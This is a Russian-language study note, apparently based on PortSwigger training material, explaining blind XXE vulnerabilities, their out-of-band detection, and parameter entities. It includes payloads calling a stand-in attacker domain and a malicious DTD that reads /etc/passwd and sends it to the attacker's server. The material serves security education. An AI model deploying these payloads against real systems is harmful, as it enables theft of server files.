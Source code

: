 Уязвимости Blind XXE возникают, когда приложение уязвимо для внедрения XXE, но не возвращает значения каких-либо определенных внешних сущностей в своих ответах. Это означает, что прямое извлечение файлов на стороне сервера невозможно, и поэтому уязвимости Blind XXE, как правило, сложнее эксплуатировать, чем обычные уязвимости XXE.

Существует два основных способа обнаружения и эксплуатации уязвимостей слепого XXE:
- Можно инициировать внеполосные сетевые взаимодействия, иногда извлекая конфиденциальные данные из данных взаимодействия.
- Инициировать ошибки анализа XML таким образом, чтобы сообщения об ошибках содержали конфиденциальные данные.

# Обнаружение слепого XXE с использованием внеполосных (OAST) методов

Часто можно обнаружить слепой XXE, используя ту же технику, что и для [атак XXE SSRF](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) , но запуская внеполосное сетевое взаимодействие с системой, которую мы контролируем. Например, можно определить внешний объект следующим образом:

```
<!DOCTYPE foo [ 
	<!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> 
]>
```

#### Лаба
[[Лабораторная работа слепой XXE с внеполосным взаимодействием]]


Иногда атаки XXE с использованием обычных сущностей блокируются из-за некоторой проверки ввода приложением или некоторого усиления используемого парсера XML. В этой ситуации можно использовать сущности параметров XML вместо них. Сущности параметров XML — это особый вид сущности XML, на которую можно ссылаться только в другом месте в пределах DTD. 

Объявление сущности параметра XML включает символ процента перед именем сущности:
`<!ENTITY % myparameterentity "my parameter entity value" >`

Для ссылки на параметрические сущности используется символ процента вместо обычного амперсанда:
`%myparameterentity;`

Это означает, что можно проверить наличие слепого XXE, используя внеполосное обнаружение с помощью сущностей параметров XML следующим образом:

```
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> 
	%xxe; 
]>
```

Эта полезная нагрузка XXE объявляет сущность параметра XML, которая называется `xxe`, а затем использует сущность в DTD. Это вызовет поиск DNS и HTTP-запрос к домену злоумышленника, подтверждая, что атака была успешной.

#### Лаба
[[Лаборатория слепой XXE с внеполосной взаимодействием через объекты XML-параметры]]


# Использование слепого XXE для извлечения данных за пределы канала

Пример вредоносного DTD для извлечения содержимого `/etc/passwd`файла выглядит следующим образом:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 

%eval; 
%exfiltrate;
```

Данный DTD выполняет следующие шаги:
- Определяет параметрическую сущность XML с именем `file`, содержащую содержимое файла `/etc/passwd`.
- Определяет параметр XML-сущности, называемый `eval`, содержащий динамическое объявление другой параметр XML-сущности, называемой `exfiltrate`. `exfiltrate`Сущность будет оценена путем выполнения HTTP-запроса к веб-серверу злоумышленника, содержащего значение сущности `file`в строке запроса URL.
- Использует сущность, что приводит к выполнению `eval`динамического объявления сущности .`exfiltrate`
- Использует `exfiltrate`сущность, так что ее значение оценивается путем запроса указанного URL.

#### Примечание
Этот метод может не работать с некоторым содержимым файла, включая символы новой строки, содержащиеся в `/etc/passwd`файле. Это связано с тем, что некоторые парсеры XML извлекают URL во внешнем определении сущности с помощью API, который проверяет символы, разрешенные для использования в URL. В этой ситуации может быть возможно использовать протокол FTP вместо HTTP.

#### Лаба
[[Лабораторная работа Эксплуатация слепого XXE для извлечения данных с использованием вредоносного внешнего DTD]]